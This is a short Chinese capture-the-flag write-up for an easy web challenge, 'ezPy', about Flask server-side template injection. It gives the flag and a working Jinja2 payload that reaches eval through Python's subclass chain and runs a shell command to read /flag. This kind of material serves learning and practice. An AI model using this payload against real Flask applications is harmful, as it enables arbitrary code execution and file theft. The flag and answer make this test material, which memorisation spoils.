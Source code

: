 - **题目名称：** ezPy
- **题目类型：** WEB
- **题目难度：** 容易
- **出题人：** ABU
- **考点：**

1. python flask ssti模板注入

- **描述：** 直接注就完了
- **flag：** flag{Pyth0n_1s_1mp0rtant!!!!!}
- **Writeup：** 

payload如下

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("cat /flag").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

